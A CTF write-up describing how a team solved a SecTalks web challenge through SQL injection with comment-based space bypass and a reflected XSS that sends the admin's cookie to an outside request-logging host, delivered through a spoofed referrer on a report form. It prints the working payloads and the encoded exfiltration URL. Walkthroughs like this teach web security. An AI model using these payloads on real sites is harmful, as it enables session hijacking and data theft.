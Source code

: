 #SYD0x10 CTF Writeups#
##### By [SteffnJ](https://github.com/SteffnJ) #####

## Introduction ##
You are given a website: http://188.166.235.114/ and a hint that there are two main flags.

## Flag 1 ##
After playing around with various aspects such as checking source-code, cookies, parameters, etc, we realized that the search box seems vulnerable. This is verified by typing `'` as a search string. This gives the error: `Error in query: SELECT * FROM posts WHERE public = 1 AND content LIKE '%'%'`. Now that we have found something that seems vulnerable to a SQL injection, we need to find out exactly how it works and how we can exploit it. After playing around a bit more with a string such as `'hello world`, we can clearly see this: `Error in query: SELECT * FROM posts WHERE public = 1 AND content LIKE '%'hello%'`. Interesting! It seems that whitespaces is used as a delimiter and ignores everything after the first whitespace. 

<br>

Since `' or 1=1;--` does not seem to work (the latter semicolon and double hyphens are to comment out the rest of the field and therefore escaping the `%` wildcard used), we will have to find other ways. Perhaps we can use multiline comments? After trying with `'/**/or/**/1=1;--` we achieve success! The flag shows up as a blog entry on the result page (along with all other blog entries):
######flag{bb020edd4cb6f01132259bbb761ca2d5}######

<br><br>

## Flag 2 ##

This one was a bit worse. Again, playing around some more. We came across the *report a page* functionality. This gave you a textbox and a submit button (also hardcoded the page you were visiting from). After trying to type in something as `hello world` and submitting, the message comes up on the next page along with a message saying that someone will look at it shortly. Hmm. Interesting. Perhaps an XSS vulnerability?

<br>

After trying to type in `<script>alert('Hello Admin');</script>` in the message box and submitting, we can see that the whole thing has been rendered as text and not as a script. But wait! It seems that we are submitting the URL we were visiting from as well as a message. Perhaps both will be checked? We started playing around with the search box again. Trying `'<script>alert('Hello admin');</admin>` (note the single quote!) in the search bar seems to give us an alert box rendered on top of the SQL query. We have found an XSS vulnerability!  Perhaps we can steal their cookie?

<br>

Now that we have a vulnerability we can exploit for a phishing attempt, we will have to design our actual exploit. As I have never done this before, I started reading up on XSS attacks and found a way to automatically redirect people: `<script>window.location="urlhere"";</script>`. How can we use this as an attack? Let us redirect them to a server of our choosing and append their cookie as a request parameter - beautiful. Let us create a [requestb.in](http://requestb.in): [http://requestb.in/100a9qp1](http://requestb.in/100a9qp1). This creates a dashboard at [http://requestb.in/100a9qp1?inspect](http://requestb.in/100a9qp1?inspect). Note that you will have to create your own requestbin when this expires.

<br>

Let us try to steal our own cookie (you can set a cookie yourself to verify that it works: in Firefox, open Developer Toolbar (Shift+F2) and type in `cookie set horse 1` - this creates a cookie `horse` with the value `1` for this domain/IP. Using same logic as above, let us try `'<script>window.location="http://requestb.in/100a9qp1?cookie="/**/+/**/document.cookie;</script>` in the search bar. This gets an error at first, before it redirects us to a page saying "ok". By refreshing the requestb.in dashboard, we can see that the cookie shows up. It works!

<br>

How can we deliver it? Let us go back and do this again, to ourselves `'<script>window.location="http://requestb.in/100a9qp1?cookie="/**/+/**/document.cookie;</script>` in the search bar. As soon as we get the sql query error, we can stop the loading and grab the url. It would be something like: `http://188.166.235.114/search?q=%27%3Cscript%3Ewindow.location%3D%22http%3A%2F%2Frequestb.in%2F100a9qp1%3Fcookie%3D%22%2F**%2F%2B%2F**%2Fdocument.cookie%3B%3C%2Fscript%3E`. This is what we will give to the admin - so we can sniff their cookie from the requestb.in. Since it seems like they are using the HTTP referrer on the 'report a page' site, we can modify our HTTP referrer with a plugin such as 'refcontrol'. Then we just say that for all pages with IP `188.166.235.114` we will use this referrer (`http://188.166.235.114/search?q=%27%3Cscript%3Ewindow.location%3D%22http%3A%2F%2Frequestb.in%2F100a9qp1%3Fcookie%3D%22%2F**%2F%2B%2F**%2Fdocument.cookie%3B%3C%2Fscript%3E`). Let us go back to the report page and submit a report - one can clearly see that the url is not where we came from, but instead what we crafted. We typed in a message to the admin `Dear admin, how secure..` and submitted the report. A few seconds later the cookie pops up on the requestb.in. We load it into our browser.

<br>

Last part of the puzzle, finding the flag. After we loaded the cookie into our browser and refreshed the page, we got a 'log out' button visible - implying we are logged in. We went to the 'exploits' page which did not seem to be open unless logged in, and there was the flag:
######flag{ec0895237c0f2be72260714214372e43}######

---


Fun-fact: I was told about [requestb.in](http://requestb.in) after I had gotten all the flags. I actually wrote my own cookie-sniffing server in flask and hosted at my Raspberry Pi from home. Could have saved me a lot of time. Hehe.

<br>

---
Thanks to the SecTalks crew for organizing and Glen for creating the challenge (and presenting previous month's CTF solution). Lastly, a thank goes out to everyday_behaviours and gibs for being awesome team-members and getting through these challenges!
